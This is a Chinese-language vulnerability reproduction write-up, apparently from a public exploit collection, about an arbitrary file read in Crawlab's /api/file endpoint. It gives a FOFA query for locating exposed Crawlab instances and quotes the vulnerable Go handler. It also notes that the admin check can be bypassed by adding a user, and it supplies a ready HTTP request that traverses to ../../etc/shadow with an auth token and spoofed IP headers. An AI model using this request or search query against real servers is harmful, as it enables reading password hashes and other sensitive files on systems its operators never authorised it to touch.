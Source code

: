 # Crawlab file 任意文件读取漏洞

## 漏洞描述

Crawlab 后台 /api/file接口 存在任意文件读取漏洞，攻击者通过漏洞就可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b.png)

首先查看路由位置 main.go 文件 中的 file 接口对应的函数

![img](../../../.vuepress/public/img/1639305536844-3306cb0b-059b-42c1-8c21-c651653d92e9.png)

```python
package routes

import (
	"crawlab/utils"
	"github.com/gin-gonic/gin"
	"io/ioutil"
	"net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
	path := c.Query("path")
	fileBytes, err := ioutil.ReadFile(path)
	if err != nil {
		HandleError(http.StatusInternalServerError, c, err)
	}
	c.JSON(http.StatusOK, Response{
		Status:  "ok",
		Message: "success",
		Data:    utils.BytesToString(fileBytes),
	})
}
```

![img](../../../.vuepress/public/img/1639305576972-90f4db89-a5b3-47e7-89da-a16927d5bec8.png)

接口调用为后台才可调用，通过任意用户添加可以完成绕过

path参数可控，发送Get请求读取任意文件

```python
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
```

![img](../../../.vuepress/public/img/1639305725285-1b2776a5-d47d-46e1-922f-e2460388e3f8.png)